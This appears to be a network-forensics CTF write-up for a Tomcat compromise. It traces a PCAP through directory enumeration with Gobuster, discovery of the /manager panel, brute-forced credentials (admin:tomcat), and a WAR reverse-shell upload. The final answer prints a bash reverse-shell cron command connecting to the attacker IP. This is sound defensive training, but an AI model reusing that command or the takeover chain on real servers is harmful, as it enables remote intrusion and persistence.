# [CyberDefenders - Tomcat Takeover](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)
Created: 22/02/2024 10:30
Last Updated: 22/02/2024 11:32
* * *
>Category: Network Forensics
>Tags: Wireshark, PCAP, Tomcat, Network, NetworkMiner, T1071, T1083, T1110, T1027, T1053.003, T1059, T1595
* * *
## Questions
> Q1: Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?


I used http filter and found that the server might be `10.0.0.112` running on port `8080`


I kept scrolling and found something suspicious, there were a lot of 4xx Error from the server response to `14.0.0.120` and it seems like this IP address is an attacker

Looking at the User-Agent, it seems like this attacker used [Gobuster](https://github.com/OJ/gobuster) a brute forcing tool to enumerate directories on the server
```
14.0.0.120
```

> Q2: 
Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?


```
Guangzhou
```

> Q3: 
From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?


```
8080
```

> Q4: 
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
```
gobuster
```

> Q5: Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?


The `/admin` was not right so I kept scrolling and found that `/manager` is likely to be the one I was looking for
```
/manager
```

> Q6: Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?


After found the admin panel, the attacker bruteforcing out

Follow the HTTP stream, And look like the user credential were presented on the page source but it's not the right one so I kept searching

And I finally found it, on the HTTP POST method
```
admin:tomcat
```

> Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?


On the HTTP POST Method, I follow the TCP stream and found the file name of the uploaded file
```
JXQOZY.war
```

> Q8: Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?


After the attacker uploaded a reverse shell to the server, the attacker triggered it and connection were established

I followed the TCP stream of that connection and found that the attacker added the bash reverse shell to cronjob so this is the way for an attacker to stay persistance
```
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```


* * *